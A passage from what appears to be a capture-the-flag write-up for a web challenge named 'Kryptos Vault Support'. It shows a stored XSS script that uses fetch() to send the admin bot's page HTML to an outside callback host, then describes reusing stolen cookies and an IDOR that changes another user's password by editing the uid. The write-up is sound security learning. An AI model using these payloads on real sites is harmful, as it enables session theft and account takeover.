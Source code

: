 ![](kryptos-6.png)

After that our attempt is to get the source code HTML that the bot has.

```html
<script> 
fetch('ip_callback/q?=' + encodeURI(document.body.outerHTML)) 
</script>
```

![](kryptos-7.png)

Decoded result
```html
<body>
        <nav class="nav-bar">
            <ul>
                <li>
                    <a href="/settings">Settings</a>
                </li>
            </ul>
        </nav>
        <nav class="logged-bar">
           <ul>
               <li>
                   logged in as (), <a href="/logout">logout</a>
               </li>
           </ul>
       </nav>
      <div class="container on">
         <div class="screen">
            <h3 class="title">
               Kryptos Vault Support tickets
            </h3>
            <div class="message-container">
                
                    <div class="ticket-card">
                        <div class="c1"><span>Submitted </span></div>
                        <div class="c2"><p>2022-05-18 17:39:15</p></div>
                        <div class="c1"><span>Message </span></div>
                        <div class="c2"><p><script> 
fetch('http://x.nyxmare.co:1234/q?='   encodeURI(document.body.outerHTML)) 
</script></p></div></div></div></div></div></body>
```

We could see the new endpoint `/settings`

We visited the new endpoint, using the stolen cookies. Apparently. It's a feature that we could change the password.

![](kryptos-8.png)

After analyzing the request we found out we could change the password for another user. So we just change the `uid` 100 to 1.
